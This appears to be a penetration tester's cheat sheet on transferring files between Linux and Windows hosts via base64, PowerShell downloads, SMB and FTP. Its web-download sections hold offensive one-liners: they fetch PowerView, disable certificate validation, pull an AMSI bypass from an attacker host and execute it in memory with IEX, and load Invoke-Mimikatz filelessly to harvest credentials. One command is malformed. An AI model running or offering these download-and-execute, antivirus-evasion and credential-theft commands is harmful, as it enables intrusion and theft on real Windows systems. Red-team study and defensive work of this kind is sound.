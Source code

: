 ## PowerShell
### Copying Using Base64 From from Linux to Windows

Verify the MD5 hash of the target file:

```bash
garffff@garffff:~/test$ more hello.py 
print("hello world!")
gareth@gareth:~/test$ md5sum hello.py 
01c0a257edd3c2e95c25d80a4c18c5cc  hello.py
```

Base64 the target file :

```bash
garffff@garffff:~/test$ cat hello.py |base64 -w 0;echo
cHJpbnQoImhlbGxvIHdvcmxkISIp
```

In PowerShell, echo the base64 output to a location:

```bash
PS C:\users\public\downloads> [IO.File]::WriteAllBytes("C:\Users\Public\hello.py", [Convert]::FromBase64String("cHJpbnQoImhlbGxvIHdvcmxkISIp"))
```

Verify MD5 of target file:

```bash
PS C:\users\public\downloads> Get-FileHash C:\Users\Public\hello.py -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             01C0A257EDD3C2E95C25D80A4C18C5CC                                 
```

### Copying Using Base64 From from Windows to Linux

```bash
PS C:\users\public\downloads> [Convert]::ToBase64String((Get-Content -path "C:\users\public\hello.py" -Encoding byte))
cHJpbnQoImhlbGxvIHdvcmxkISIp
```

Verify MD5 hash:

```bash
PS C:\users\public\downloads> Get-FileHash "C:\users\public\hello.py" -Algorithm MD5 | select Hash

Hash
----
01C0A257EDD3C2E95C25D80A4C18C5CC
```

On Linux system:

```bash
echo 'cHJpbnQoImhlbGxvIHdvcmxkISIp' | base64 -d > hello.py
```

Verify hash:

```bash
garffff@garffff:~/test$ md5sum hello.py 
01c0a257edd3c2e95c25d80a4c18c5cc  hello.py
```

### Web Downloads

Malicious files can be detected by Defender:

```bash
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\users\public\downloads> wget 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_wget.ps1
PS C:\users\public\downloads> curl 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_curl.ps1
```

Using Invoke-WebRequest is a slower method, this can launch IE when first launched:

```bash
PS C:\users\public\downloads> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

To prevent IE from loading use the following:

```bash
PS C:\users\public\downloads> Invoke-WebRequest https://https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1/PowerView.ps1 -UseBasicParsing {| IEX}
```

When SSL/TLS certificate are not trusted (not tested):

```bash
PS C:\users\public\downloads> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```
### Web Downloads - Fileless (memory)

Need to bypass AMSI to load Malicious files into memory:

```bash
PS C:\users\public\downloads> (New-Object System.Net.WebClient).DownloadString('http://192.168.0.51/amsi.txt') | IEX
```

Then load into memory:

```bash
PS C:\users\public\downloads> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

## SMB

Create SMB server:

```bash
gareth@gareth:~/test$ sudo smbserver.py share /tmp -smb2support 
Impacket for Exegol - v0.10.1.dev1+20231106.134307.9aa93730 - Copyright 2022 Fortra - forked by ThePorgs

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Copying to Windows:

```bash
c:\Users\Public\Downloads>copy \\192.168.0.51\share\hello.py
        1 file(s) copied.
```

Using a username and password:

```
c:\Users\Public\Downloads> net use x: \\192.168.220.133\share /user:garffff password
c:\Users\Public\Downloads> copy x:\hello.py
```

## FTP

Create FTP server:

```bash
garffff@garffff:~/test$ sudo pip3 install pyftpdlib
garffff@garffff:~/test$ sudo python3 -m pyftpdlib --port 21
[I 2024-09-29 14:49:52] concurrency model: async
[I 2024-09-29 14:49:52] masquerade (NAT) address: None
[I 2024-09-29 14:49:52] passive ports: None
[I 2024-09-29 14:49:52] >>> starting FTP server on 0.0.0.0:21, pid=47842 <<<
```

Copy file:

```bash
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('ftp://192.168.0.51/hello.py', 'C:\Users\Public\downloads\hello.py')
```

